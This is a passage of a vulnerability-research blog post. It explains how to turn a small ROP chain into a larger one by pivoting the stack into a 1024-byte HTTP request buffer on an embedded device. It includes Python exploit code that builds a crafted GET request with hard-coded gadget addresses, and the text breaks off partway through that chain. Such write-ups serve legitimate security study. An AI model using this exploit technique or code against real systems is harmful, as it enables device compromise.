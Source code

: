 ```yaml
---
published: true
title: "🪂 [3] Bigger and Better ROP-Chains + Shellcode"
toc: true
toc_sticky: true
categories:
  - VR
tags:
  - Exploitation
  - ROP
  - Memory Corruption
  - Shellcode
tagline: "Now that we've got a pretty small and limited ROP-chain, we should be able to utilise various gadgets to enable larger and less limited execution - hopefully execution of shellcode."
excerpt: "So we've got a pretty small and limited ROP-chain, lets try and get shellcode running."
---
```


We've done the hard bit now - we've found a bug, and exploited it to get execution. Now we just need to burrow deeper for better access/control.

# Larger/Less Limited ROP-Chain

The most obvious target here (at least it was to me after staring at the **http_request_proc** for ages) is the 1024 byte buffer that is populated with the entire HTTP request - it has the following benefits:
- *Larger*: 1k bytes of space - remember that our 256 byte ROP-chain from the previous request will not be clobbered as only the HTTP method enters this buffer, so we'll only overwrite the first few bytes (which we did anyway when we triggered it for the pc control PoC)
- *No bad characters*: The **recv** will just keep receiving whatever is sent in, so there are no bad characters that will impact the contents of this buffer

## Writing the Stack Pivot Chain

Remember that this is still using the limited 256 byte chain. This chain does the following:
- Pop registers off of the stack
- Do the standard fixup we saw in the previous blog (client counts and **index.html** callback)
- Save the stack pointer to known global address (*0xc09ae8d4*)
- Load an amount to add to the saved stack pointer (*0xc8*)
- Add the saved stack pointer and loaded value to get the stack pivot address
- Use the same gadgets as the stack pointer fixup to get this new stack pointer into **r11**
- Run the first gadget of the larger chain which moves **r11 + 0x1c** into sp and pops off registers

```
-python
# Construct the raw HTTP GET request
request = method + b" /index.html HTTP/1.1\r\n"
request += b"Accept-Aa0Aa"
request += p32(0xc02b4edc) # pc

# 0xc02b4edc | ldmia sp!,{r4,r5,r6,r7,r11,pc} <- pop stuff off of the stack so we actually get a decent bit of control
request += p32(0xc05af011) # r4
request += p32(0xc006b11c) # r5 <- change this to insert more gadgets
request += p32(0xc04a28e0) # r6
request += p32(0xc09ae8d4 - 0xdc) # r7 - where we write the stack pointer we destroy
request += p32(0xdeadbeef) # r11
request += p32(0xc0486988) # pc

# | 0xc0486988 | c0486988 | blx r4 | c0486988 | blx r4  | <- go to thumb mode for the next gadget
# | 0xc05af011 | c05af010 | add r0,sp,#0x20 | c05af012 | blx r6 |  <- move sp + 0x20 to r0 so we can save it for later
```